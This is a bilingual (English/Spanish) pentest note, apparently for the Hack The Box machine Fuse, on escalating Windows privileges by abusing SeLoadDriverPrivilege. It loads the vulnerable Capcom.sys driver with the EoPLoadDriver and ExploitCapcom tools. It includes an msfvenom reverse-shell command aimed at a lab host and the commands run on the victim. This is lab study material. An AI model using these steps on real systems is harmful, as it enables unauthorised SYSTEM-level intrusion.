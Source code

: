 ## DESCRIPTION

Googling about `SeLoadDriverPrivilege` leads to [this post](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) from TarLogic. If I can load a driver, I can load a vulnerable driver, and then exploit it. They use the vulnerable Capcom driver as an example. I’ll grab a copy of this vulnerable driver [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys).

I’ll need to compile a couple `.exe` files to pull off this attack. I’ll do that in a Windows VM. I made some attempts to compile one of them in Kali using `mingw-64`, but it led to errors. It’s typically better to compile Windows executables in Windows where possible.

Enumeración:

![[Pasted image 20230320200439.png]]

#### Mas información
* https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/
* https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system

## EXPLOITATION

1. Clonamos el repositorio y descargamos la herramienta --> https://github.com/TarlogicSecurity/EoPLoadDriver/
**!!NOTA IMPORTANTE!!** 
	Tendremos que compilar por lo que vamos a usar Win 10 y visual studio

![[Pasted image 20230320200609.png]]

2. Creamos un proyecto en VS de Apliación de consola, copiamos el contenido del repo:

![[Pasted image 20230320200647.png]]

**!!NOTA IMPORTANTE!!** 
	IMPORTANTE ESTAMOS FRENTE A UNA MAQUINA WINDOWS 10 X64 ENTONCES LE TENEMOS QUE METER LA OPCIÓN ANTES DE COMPILAR:
	![[Pasted image 20230320200709.png]]

3. En este ejemplo nos ha dado un fallo al compilar

![[Pasted image 20230320200743.png]]

Para solucionarlo tenemos que eliminar el primer include.

4. NECESITAMOS DESCARGAR TAMBIEN CAPCOM.SYS  (este no hace falta compilarlo) --> https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys

5. Descargamos tambien este exploit --> https://github.com/tandasat/ExploitCapcom cambiamos lo siguiente en el codigo:

![[Pasted image 20230320201055.png]]

6. Lo compilamos

7. Creamos una reverse shell [[BUILD REVERSE SHELL MSFVENOM]]

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=5555 -f exe -o shell.exe   
```

9. Subimos a la máquina [[TRANSFERRING FILES]]

• LoadDriver: en este caso es ConsoleApp.exe
• Capcom.sys
• ExploitCapcom.exe
• shell.exe

10. Desde la máquina victima lo ejecutamos

```
C:\Windows\System32\spool\drivers\color\ConsoleApplication1.exe SystemCurrentSet\tal C:\Windows\System32\spool\drivers\color\Capcom.sys

.\ExploitCapcom.exe
```

![[Pasted image 20230320201358.png]]

![[Pasted image 20230320201403.png]]
## MACHINES

* Hack The Box: Fuse
